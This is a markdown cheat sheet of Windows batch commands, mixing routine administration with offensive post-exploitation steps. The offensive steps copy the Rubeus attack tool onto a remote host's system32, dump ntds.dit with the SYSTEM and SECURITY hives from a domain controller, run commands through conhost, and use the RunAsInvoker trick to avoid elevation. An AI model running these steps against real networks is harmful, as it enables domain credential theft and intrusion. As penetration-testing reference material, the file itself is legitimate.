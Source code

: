 # Copy files between systems
## File
```batchfile
xcopy "C:\Rubeus.exe" "\\[computer.domain.local]\C$\Windows\system32\"
```
## Directory
### xcopy
```batchfile
xcopy "C:\temp\" "\\[computer.domain.local]\" /E /H /C /I
```
### robocopy
```batchfile
robocopy "C:\temp\" "\\[computer.domain.local]\temp\ /MIR"
```

# Recursively delete a folder and everything inside it
```batchfile
rd /S /Q "C:\Users\[user]\Downloads\[folder]"
```

# Dump ntds.dit on a domain controller
```batchfile
ntdsutil "ac i ntds" "ifm" "create full C:\Windows\Temp\xn--5o8hui" q q
xcopy "\\<dc>.<domain.local>\C$\Windows\Temp\xn--5o8hui\Active Directory\ntds.dit" C:\<dc>\
xcopy "\\<dc>.<domain.local>\C$\Windows\Temp\xn--5o8hui\registry\SYSTEM" C:\<dc>\
xcopy "\\<dc>.<domain.local>\C$\Windows\Temp\xn--5o8hui\registry\SECURITY" C:\<dc>\
rmdir /S C:\Windows\Temp\xn--5o8hui\
```

# Run commands via [conhost](https://lolbas-project.github.io/lolbas/Binaries/Conhost/)
```batchfile
conhost cmd.exe
```

# Find files or directories

# Find all files and directories
```batchfile
dir "C:\Users\*.txt" /s
```
## Print only file names (no heading information or summary)
```batchfile
dir /s /b /o:gn "C:\Users\*.txt"
```

# Merge two binary files
```batchfile
copy /b cmd.exe+calc.exe new_cmd.exe
```

# Get hash of a file
```batchfile
certutil -hashfile C:\Windows\System32\cmd.exe SHA256
```

# [Displays the device join status](https://learn.microsoft.com/en-us/azure/active-directory/devices/faq#how-do-i-know-what-the-device-registration-state-of-the-client-is)
```batchfile
dsregcmd.exe /status
```
# Get a list of logged user sessions from a remote computer
## query session
```batchfile
query session /server:[server]
```
### qwinsta
```batchfile
qwinsta /server:[server]
```
## query user
```batchfile
query user /server:[server]
```

# Install Windows applications as current user
```batchfile
set __COMPAT_LAYER=RunAsInvoker
start installer.exe
```

# Find a listening port
```batchfile
netstat -aofn | findstr :10080
```
